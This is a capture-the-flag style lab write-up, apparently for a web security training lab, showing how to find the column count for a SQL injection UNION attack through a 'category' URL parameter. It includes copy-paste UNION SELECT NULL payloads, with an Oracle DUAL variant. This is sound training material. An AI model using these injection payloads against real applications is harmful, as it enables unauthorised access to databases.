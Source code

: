 # SQL injection UNION attack, determining the number of columns returned by the query

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Determine the number of columns** returned by the vulnerable query (for later UNION exploitation).

> ⚠️ **Alert:** This phase only determines the **column count**. We are **not** extracting data yet.

---

## ✅ My Exact Steps (Verbatim)

1. **SQL injection UNION attack, determining the number of columns returned by the query**

2. **alert! this is only determining the number of columns.**

3. **lets find the vulnerable url parameter**

4. **`/filter?category=Lifestyle'` -> error 500**

5. **lets fix: `/filter?category=Lifestyle'--;` -> 200**

6. **since the lab informs us this is sql, we dont have to select from a table.**

7. **`/filter?category='+UNION+SELECT+NULL--;` -> returns 500, repeat this adding columns.**

8. **`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--;` -> return 200**

9. **lab solved!**

---

## 🧠 Minimal Additions (Why / Tips)

- **UNION rules:** Your injected `UNION SELECT` must match the **exact number of columns** (and compatible data types) returned by the original query. The first working payload (Step 8) indicates the endpoint returns **3 columns**.
- **Using `NULL`:** `NULL` is type-flexible in most DBs, minimizing type mismatch errors during discovery.
- **No table needed?**  
  - **MySQL / PostgreSQL / SQL Server:** You can `SELECT` constants without a table (as used here).  
  - **Oracle:** Requires a dummy table; use `FROM DUAL`, e.g., `UNION SELECT NULL,NULL,NULL FROM DUAL`.
- **Comments:** `--` comments out the rest of the line. Many parsers require a trailing space; `--+` is a handy URL form because `+` decodes to a space.
- **Iterate:** Start with one `NULL`, then add commas: `NULL,NULL`, `NULL,NULL,NULL`, until you get **200 OK**.

---

## 🔧 Payloads I Used (Copy/Paste)

**Discovery & Fix:**
```txt
/filter?category=Lifestyle'
/filter?category=Lifestyle'--+
```

**UNION column count probing (increment NULLs until 200):**
```txt
/filter?category=Lifestyle'+UNION+SELECT+NULL--+
/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--+
/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--+
```

**Oracle variant (requires DUAL):**
```txt
/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL+FROM+DUAL--+
```

---

## 🏁 Result
- The application accepted `UNION SELECT` with **three columns**, confirming the **column count = 3** for subsequent UNION-based payloads. **Lab Solved. ✅**
